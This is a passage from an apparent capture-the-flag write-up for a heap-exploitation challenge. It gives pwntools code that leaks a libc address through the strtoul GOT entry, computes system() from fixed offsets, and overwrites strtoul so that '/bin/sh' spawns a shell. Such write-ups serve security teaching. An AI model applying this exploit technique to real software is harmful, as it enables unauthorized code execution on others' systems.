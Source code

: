 ```
edit_title(2, 'AAAAAAAA' + p64(strtoul_got_addr), '', 0)
```

But this leaves us with an invalid size. That's actually fine for the rest of our exploit, but if we did want to allocate another book for some reason, `realloc` would attempt to reallocate on the same chunk of memory and fail because of the invalid size. To be safe, we'll do this:

```
edit_title(2, p64(0x51), p64(strtoul_got_addr), 0)
```

Note that this wouldn't have worked:
```
edit_title(2, p64(0x51) + p64(strtoul_got_addr), '', 0)
```

Because the code uses `strncpy`, and `NULL` bytes wouldn't be accepted in the title.

Finally, we can leak our libc address:

```
p.recvuntil('Editing title: Q')
p.recvuntil('4: ')
libc_leak = u64(p.recvline().strip().ljust(8, '\x00'))
log.info('libc_leak: %s' % hex(libc_leak))
```

## Getting a shell

Now that we've leaked a libc address, we can find the address of `system`:
```
strtoul_offset = 0x3d410
system_offset = 0x46590

libc_base = libc_leak - strtoul_offset
system_addr = libc_base + system_offset

log.info('libc_base: %s' % hex(libc_base))
log.info('system_addr: %s' % hex(system_addr))
```

Finally, we edit the address of `strtoul` to `system`:

```
edit_title(4, p64(system_addr), '', '/bin/sh')
p.interactive()
```

And you have a shell!

The code to edit a book first sets the title and then calls `strtoul` on the rating, which is why we passed the rating in as '/bin/sh'. This means `strtoul('/bin/sh')` is called after we rewrite the `strtoul` GOT address, which means we effectively call `/bin/sh`.

For the actual challenge, you needed to use a libc from Debian Jessie, which I found online. My full exploit can be found [here](https://github.com/samuraictf/writeups/blob/master/tum2016/l1br4ry/solve.py).
